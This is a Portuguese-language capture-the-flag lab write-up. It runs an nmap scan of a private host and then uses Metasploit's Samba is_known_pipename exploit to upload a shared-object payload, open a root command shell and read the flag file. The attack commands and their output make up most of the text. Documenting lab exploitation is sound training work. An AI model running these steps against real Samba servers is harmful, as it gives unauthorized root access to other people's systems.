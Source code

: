 ># **Exploração 192.168.90.79**

Flag Capturada:

    CTF{6d344445cf04504cbb1e65f794153f3f}

>### **SCAN com nmap -sV :**

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 14:13 -03
    Nmap scan report for 192.168.90.79
    Host is up (0.0040s latency).
    Not shown: 997 filtered tcp ports (no-response)
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    Service Info: Host: 102BAAPLOGEX; OS: Linux; CPE: cpe:/o:linux:linux_kernel

>### **Usando msfconsole para explorar a vulnerabilidade:**

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀aluno</b></font><font color="#367BF0">)-[</font><b>/home/aluno/Downloads</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">msfconsole</font>          </pre>


<pre><u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>linux/samba/is_known_pipename</b></font>) &gt; set RHOSTS 192.168.90.79
RHOSTS =&gt; 192.168.90.79
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>linux/samba/is_known_pipename</b></font>) &gt; set RPORT 445
RPORT =&gt; 445
</pre>


<pre><u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>linux/samba/is_known_pipename</b></font>) &gt; run

<font color="#277FFF"><b>[*]</b></font> 192.168.90.79:445 - Using location \\192.168.90.79\102baaplogexdocs\ for the path
<font color="#277FFF"><b>[*]</b></font> 192.168.90.79:445 - Retrieving the remote path of the share &apos;102baaplogexdocs&apos;
<font color="#277FFF"><b>[*]</b></font> 192.168.90.79:445 - Share &apos;102baaplogexdocs&apos; has server-side path &apos;/home/suzi/suzishare
<font color="#277FFF"><b>[*]</b></font> 192.168.90.79:445 - Uploaded payload to \\192.168.90.79\102baaplogexdocs\bOmNyPVV.so
<font color="#277FFF"><b>[*]</b></font> 192.168.90.79:445 - Loading the payload from server-side path /home/suzi/suzishare/bOmNyPVV.so using \\PIPE\/home/suzi/suzishare/bOmNyPVV.so...
<font color="#EC0101"><b>[-]</b></font> 192.168.90.79:445 -   &gt;&gt; Failed to load STATUS_OBJECT_NAME_NOT_FOUND
<font color="#277FFF"><b>[*]</b></font> 192.168.90.79:445 - Loading the payload from server-side path /home/suzi/suzishare/bOmNyPVV.so using /home/suzi/suzishare/bOmNyPVV.so...
<font color="#47D4B9"><b>[+]</b></font> 192.168.90.79:445 - Probe response indicates the interactive payload was loaded...
<font color="#277FFF"><b>[*]</b></font> Found shell.
<font color="#277FFF"><b>[*]</b></font> Command shell session 1 opened (192.168.80.109:43187 -&gt; 192.168.90.79:445 ) at 2022-05-05 14:40:08 -0300

</pre>

>### **Navegando até a Flag:**

<pre>ls
systemd-private-b7b3329bef40405ebf1e4e187ad4f052-systemd-resolved.service-LX6tZ7
systemd-private-b7b3329bef40405ebf1e4e187ad4f052-systemd-timesyncd.service-6jdmPT
cd /root
ls
flag.txt
cat flag.txt
CTF{6d344445cf04504cbb1e65f794153f3f}
</pre>